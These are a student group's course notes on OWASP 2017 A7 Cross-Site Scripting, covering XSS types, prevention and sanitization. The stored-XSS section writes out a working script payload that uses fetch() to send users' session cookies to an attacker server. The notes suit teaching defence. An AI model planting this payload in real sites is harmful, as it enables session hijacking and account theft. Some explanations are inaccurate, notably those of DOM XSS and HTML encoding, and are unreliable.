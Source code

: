 # Week 12 - OWASP A7 Cross-Site Scripting (XSS)
Group: Martin Frederiksen(cph-mf237), Andreas Vikke(cph-av105).


### Explain the “sections”, “Is the Application Vulnerable” and “How to Prevent” for the OWASP 2017 Risks: A7
- **Reflected XSS:** The user interacts with a link that sends them to a site with data from the attacker. This data can be javascript that extracts information and sends it futher to the atrackers server.
- **Stored XSS:** The attacker  stores unsanitized data in the database which later shows up in other users browsers and executes.
- **DOM XSS:** The websites framework dynamically includes a libary which the attacker has control over.
- **Prevent:** To prevent the data needs to be seperated of unstruted data. This can be done with frameworks that escape XXS, escaping untrusted HTTP request, applying context-sensitive encoding, eneabeling CSP as a defense-in-depth.


### Demonstrate a simple reflected XSS example
The attacker can make an e-mail with information about the company, and a link to the real companies site. The link then points to a search site with a script that extracts the current users JSSESSION and sends it to the attackers server.


### Explain and Demonstrate a stored XSS attack with session hijacking and a subsequent attack using the “stolen” session ID
A stored XSS attack is when the attacker saves a script in the database which is then run in other users browser when it gets to them.
The attacker creates an account and in the USername field he adds <script>fetch("http://XXXX:666/evil?cookie="+document.cookie);</script> Then when users or admins see this his username, be it on a forum or in a list of users, the browser sends the JSSESSION cookie to the attackers server.


### What kind of “indications” will an attacker look for in a WEB-page before testing whether the site is vulnerable to XSS-attacks?
The attackers first looks if the server is SSL protected, if not the server sends unencrypted data, after this he looks for input fields, some input fields could be unsanitized, so more is better.


### Explain and demonstrate ways to prevent XSS-attacks
There are many ways to prevent XSS, some newer frameworks have it build in even. You can escape the XSS by design, escape untrusted HTTP requests, apply sanitation on the server site, apply context-sensitive encoding.

### Explain the terms HTML Sanitizer and HTML Encoder and their purposes
- **HTML sanitization:** examines the HTML document and makes a new HTML document that removes all the tags that are not safe, such as <script>, <object>, <embed>, <link>. The sanitation is typically using a whitelist or blacklist approch. The whitelist allows nothing but the whitelistet item, and the blacklist allows everything but the blacklistet items.
- **HTML encoder:** The encoding of the HTML document determines what character encoding to be used, default UTF-8.